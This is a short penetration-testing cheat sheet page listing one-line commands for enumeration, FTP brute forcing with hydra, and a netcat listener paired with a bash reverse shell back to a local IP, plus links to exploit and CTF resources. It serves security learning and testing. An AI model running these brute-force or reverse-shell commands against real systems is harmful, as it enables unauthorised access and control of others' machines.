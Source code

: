 ```yaml
---
layout: page
title:  "Pentesting tools"
permalink: "pentesting-tricks.html"
tags: [security, pentesting]
summary: ""
---
```


* Decode base64: `echo ‘base64 encoded text’ | base64 -d`
* Create a dictionary from words on a webpage: `cewl http://test.com -w /root/tmp/dict.txt`
* FTP bruteforce: `hydra -L dict.txt -P dict.txt 192.168.1.104 ftp`
* Netbios name scanner: `nbtscan $IP`
* `rpcclient -U "user" $IP`
* `enum4linux $IP`
* ROT13: `rahash2 -E rot -S s:13 -s ‘A string\n’`
* Netcat and bash redirection:
  - Attacker: `nc -nlvp 4444`
  - Victim: `bash -i >& /dev/tcp/192.168.33.129/4444 0>&1`


## Resources and references
* [LittleBlackBox tool](https://github.com/devttys0/littleblackbox/tree/master/docs)
* [Linux exploit suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester/blob/master/README.md)
* [RTP streams tool by GoogleProjectZero](https://github.com/googleprojectzero/Street-Party)
* [CTF resources](https://ctfs.github.io/resources/)
* [2 of diamonds Metasploit CTF writeup](https://www.tinkerfairy.net/2-of-diamonds.txt)
* [Schneider-Electric Automation Server](https://www.hackers-arise.com/single-post/2016/07/25/Mr-Robot-Hacks-How-fsociety-Hacked-of-the-SmartHome-of-The-Evil-Corp-Exec)
* [Word exploitation](https://www.hackers-arise.com/single-post/2018/03/05/Metasploit-Basics-Part-11-Exploiting-Fileformat-Vulnerabilities-in-MS-Office)
